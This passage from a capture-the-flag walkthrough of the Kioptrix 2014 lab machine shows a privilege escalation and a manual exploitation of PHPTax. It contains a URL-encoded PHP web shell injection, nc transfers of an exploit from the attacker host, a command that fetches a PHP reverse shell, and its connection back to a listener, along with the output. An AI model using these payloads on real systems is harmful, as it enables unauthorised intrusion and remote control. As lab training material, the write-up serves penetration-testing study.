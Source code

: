 Without curl and wget, we have to do another step.  
Download it from our computer:  

kali@kali:~$ wget hxxps://www.exploit-db.com/download/26368.c  

And transfer it via nc  

kali@kali:~$ nc -nlvp 4445 < 26368.c  

>nc 192.168.1.115 4445 > 26368.c  
>ls  
>26368.c  
>gcc 26368.c -o 26368  
>./26368  
>id  
>uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)  
>cat /root/congrats.txt  

### WITHOUT METASPLOIT  

That was easy, so let's try without the actual exploit.  
*https://www.exploit-db.com/exploits/25849/*  
We picked up this post, read the exploit and replicate the steps manually:  

First request:  

hxxp://192.168.1.59:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru%28%24_GET[cmd]%29%3B%3F%3E  

And we got our non-interactive shell.  

hxxp://192.168.1.59:8080/phptax/data/rce.php?cmd=id  
>uid=80(www) gid=80(www) groups=80(www)   

Let's spawn an actual shell. We run the apache and place a reverse shell to pick it up from the server:  

hxxp://192.168.1.59:8080/phptax/data/rce.php?cmd=wget%20192.168.1.115/php-shell-reverse.php  

Oh, I forgot, there was no wget. So, same way, with our friend nc:  

hxxp://192.168.1.59:8080/phptax/data/rce.php?cmd=nc%20192.168.1.115%204445%20%3E%20reverse.php  

kali@kali:~$ nc -nlvp 4445 < php-reverse-shell.php   
>listening on [any] 4445 ...  
>connect to [192.168.1.115] from (UNKNOWN) [192.168.1.59] 39536  

  
hxxp://192.168.1.59:8080/phptax/data/reverse.php  

kali@kali:~$ nc -nlvp 4444  
>listening on [any] 4444 ...  
>connect to [192.168.1.115] from (UNKNOWN) [192.168.1.59] 44438  
>FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64  
>10:31AM  up 14:01, 0 users, load averages: 0.03, 0.04, 0.00  
>USER       TTY      FROM                      LOGIN@  IDLE WHAT  
>uid=80(www) gid=80(www) groups=80(www)  
>sh: can't access tty; job control turned off  
>$ id  
>uid=80(www) gid=80(www) groups=80(www)  

Now we have an interactive shell.  